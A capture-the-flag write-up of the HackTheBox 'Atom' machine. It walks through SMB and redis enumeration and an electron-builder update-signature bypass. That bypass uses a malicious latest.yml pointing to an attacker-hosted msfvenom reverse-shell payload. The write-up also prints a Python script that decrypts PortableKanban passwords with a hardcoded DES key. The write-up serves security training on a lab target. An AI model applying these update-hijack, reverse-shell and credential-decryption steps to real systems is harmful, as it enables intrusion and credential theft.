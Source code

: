 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*


----------------------------------------------------------------------------------------------------

## FOOTHOLD

- Start a nmap scan with default script and version detections and the verbosity flag turned on to see open ports on the fly without having to wait for the scan to finish.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom1.png)
- A full port scan reveals redis is active on port `6379` along w winrm at 5985 which shows we can probably use remoting with authentic creds.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom2.png)
- We start off by enumerating port 80.
    - We find a possible username at the end of the page: MrR3boot@atom.htb.
    - From this we infer and add `atom.htb` to our `/etc/hosts` file. Continue browsing the site.
    - Directory Bruteforcing with gobuster results in nothing too userful, moving on. 

### Enumerating redis

- Much cant be enumerated since redis requires credentials to authenticate. Checking the format of authentication shows it requires only the password. We could attempt to brute force the password if nothing turns up from smb.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom7.png)

### Enumerating smb

- `smbmap` shows use we have access to 2 shares amongst. **Software_Updates** seems interesting as we have **right access** too to it.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom3.png)
- Using `smbclient` to connect to the share with null authentication:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom4.png)
- Grap the pdf in the share. Looking at the pdf we infer 2 things:
    1. **Built with : electron-builder**
    2. We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here.
- This link explains a suitable exploit: [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)
- In short is a vulnerability caused by an unescaped variable. We can trigger a parse error in the script to achieve code execution.
- The exploit bypasses inbuilt signature checks as shown below.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom5.png)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom6.png)

----------------------------------------------------------------------------------------------------

## POST EXPLOITATION

***GETTING user.txt***
- Generate an msfvenom payload of choice . Generate a reverse https executable and then rename it with single quotes.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom8.png)
- Rename the file to the filename as `d'payload.exe` as shown.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom10.png)
- Calculate the hash using the prescribed syntax as shown below: 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom9.png)
- Setup a listener on msfconsole to catch your shell using `multi/handler`.
- Generate the `latest.yml` file update. Replace the path and the hash.
    ```bash
    version: 1.2.3
    path: http://10.10.14.52/d'payload.exe 
    sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
    ```
- Start a server to host `d'payload.exe` using: `sudo python -m SimpleHTTPServer 80`
- Finally put the update file in one of the client folders on the share using smbclient. Wait for about 15-20 secs and let the update happen. A meterpreter shell is recieved.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom11.png)
- A getuid command confirms we are `ATOM\jason`.
- Retrive `user.txt` from jason's dekstop folder.

***GETTING root.txt***
- Enumerate the host with winpeas. Begin by dropping winpeas on the box.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom12.png)
- Jason's credentials do not allow `winrm` remoting. A user guide pdf exists which we might have a look at if needed.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom13.jpg)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom17.png)
- Since we already know redis was on,  we find its config file. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom14.png)
- We finally found the password for the redis server as shown. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom15.jpg)
- Use this [guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.
- Now follow these steps:
    1. Connect to redis using:
    `redis -h 10.10.10.237`
    2. Authenticate using the password:
    `auth pass`
    3. Retrive info on the keyspace using:
    `info keyspace`
    4. We see that there is one databse - number 0 which has 4 keys. View the keys using: `keys *`
    5. We see a bunch of keys. Retrieve the first or last, it might most likely be the administrator's key: `get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom16.jpg)
- We now have the administrator hash.
- Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for further clues.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom18.png)
- Googling around it is figured that portable-kanban stores the settings for the encrypted password.
- Searching around for an exploit an encrypted password disclosure vulnerability is found [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/).
- Remove the unnecessary `except` statement.
- The python script:
    ```python
    import json
    import base64
    from des import * 

    #python3 -m pip install des

    try:
        hash = str(input("Enter the Hash : "))
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
    except:
        print("Wrong Hash")
    ```
- Install `des` using: `sudo pip3 install des`
- Run the script, input your hash and get the decrypted hash. 
    
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom20.jpg)
- We now finally have the password for the administrator account. 
- Lets try winrm again using these credentials. The credentials are valid.
    
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom19.jpg)
- Grab `root.txt` from the Desktop of the Administrator's account.

----------------------------------------------------------------------------------------------------






